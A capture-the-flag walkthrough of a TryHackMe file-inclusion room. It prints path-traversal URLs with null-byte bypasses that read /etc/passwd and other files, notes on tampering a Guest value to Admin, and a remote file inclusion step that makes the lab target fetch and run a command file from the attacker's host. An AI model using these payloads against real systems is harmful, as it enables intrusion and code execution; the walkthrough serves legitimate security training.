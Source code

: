 # File Inclusion

**Room Link:** [https://tryhackme.com/room/fileinc](https://tryhackme.com/room/fileinc)



**Give Lab #1 a try to read /etc/passwd. What would the request URI be?**

<figure><img src="../../.gitbook/assets/image (16) (5).png" alt=""><figcaption></figcaption></figure>

**In Lab #2, what is the directory specified in the include function?**

<figure><img src="../../.gitbook/assets/image (23) (1) (2).png" alt=""><figcaption></figcaption></figure>

**Give Lab #3 a try to read /etc/passwd. What is the request look like?**

Input field didn't work but we were able to bypass by entering our command in the web browser instead.

**URL:** hxxp://10.10.230.14/lab3.php?file=..//..//../../../etc/passwd%00&#x20;

<figure><img src="../../.gitbook/assets/image (22) (1) (2).png" alt=""><figcaption></figcaption></figure>

**Which function is causing the directory traversal in Lab #4?**

file\_get\_contents

<figure><img src="../../.gitbook/assets/image (34) (1).png" alt=""><figcaption></figcaption></figure>

**Try out Lab #6 and check what is the directory that has to be in the input field?**

THM-profile

<figure><img src="../../.gitbook/assets/image (49) (1).png" alt=""><figcaption></figcaption></figure>

**Try out Lab #6 and read /etc/os-release. What is the VERSION\_ID value**

Only worked in browser

hxxp://10.10.230.14/lab6.php?file=THM-profile//..//..//..//..//etc//os-release%00

<figure><img src="../../.gitbook/assets/image (14) (5) (1).png" alt=""><figcaption></figcaption></figure>

**Capture Flag1 at /etc/flag1**

****

****

<figure><img src="../../.gitbook/assets/image (12) (6).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (17) (3).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (10) (3).png" alt=""><figcaption></figcaption></figure>

**Capture Flag2 at /etc/flag2**

<figure><img src="../../.gitbook/assets/image (28) (3).png" alt=""><figcaption></figcaption></figure>

Change the value from Guest to Admin and we can bypass the error message above.

<figure><img src="../../.gitbook/assets/image (50) (1).png" alt=""><figcaption></figcaption></figure>

Change the value to the flag and we can see it on the page.

<figure><img src="../../.gitbook/assets/image (31) (2).png" alt=""><figcaption></figcaption></figure>

What it would look like in burp.

<figure><img src="../../.gitbook/assets/image (32) (2).png" alt=""><figcaption></figcaption></figure>

**Capture Flag3 at /etc/flag3**

Page is getting rid of our slashes

<figure><img src="../../.gitbook/assets/image (11) (7).png" alt=""><figcaption></figcaption></figure>

Changing to post and added extra slashed and null character at end.

<figure><img src="../../.gitbook/assets/image (30) (1) (2).png" alt=""><figcaption></figcaption></figure>



**Gain RCE in Lab #Playground /playground.php with RFI to execute the hostname command. What is the output?**

**Kali**

Created the following file to run the hostname command.

****![](<../../.gitbook/assets/image (14) (1) (1).png>)****

**Kali**

Host the file

```
python2 -m SimpleHTTPServer 81
```

**Browser**

```
hxxp://10.10.230.14/playground.php?file=http://10.10.11.193:81/cmd.txt
```

<figure><img src="../../.gitbook/assets/image (10) (1) (5) (1).png" alt=""><figcaption></figcaption></figure>
